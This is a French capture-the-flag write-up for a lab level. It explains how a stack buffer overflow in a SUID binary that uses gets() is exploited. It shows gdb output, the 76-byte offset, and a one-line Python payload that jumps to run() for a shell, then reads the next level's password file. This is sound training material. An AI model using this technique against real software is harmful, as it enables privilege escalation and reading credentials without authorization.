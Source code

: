 # level1 - Stack Buffer Overflow

## Analyse du Programme

**Structure de la Stack**
- La fonction `gets()` est utilisée sans vérification de taille
- Le buffer overflow permet de réécrire l'adresse de retour (saved EIP)
- L'adresse de `run()` est `0x8048444`
```nasm
(gdb) p run
$2 = {<text variable, no debug info>} 0x8048444 <run>
```
## Exploitation du Buffer Overflow

**Localisation de l'Adresse de Retour**
```bash
(gdb) i f
Stack level 0, frame at 0xbffff740:
eip = 0x8048481 in main; saved eip 0xb7e454d3
```

**Calcul de l'Offset**
- Utilisation d'un pattern cyclique pour trouver l'offset précis
- L'offset entre le début du buffer et EBP+4 est de 76 bytes

![alt Ressources/overflow_pattern_1.png](Ressources/overflow_pattern_1.png)

![alt Ressources/overflow_pattern_2.png](Ressources/overflow_pattern_2.png)

**Construction de l'Exploit**
```bash
(python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
```

L'exploit fonctionne en:
1. Remplissant 76 bytes avec des "A"
2. Ajoutant l'adresse de `run()` en little-endian
3. Maintenant le shell ouvert avec `cat`

## Obtention du Flag
```bash
cat /home/user/level2/.pass
```

Cette méthode fonctionne car le programme est compilé avec le bit SUID, permettant l'exécution du shell avec les privilèges de level2.

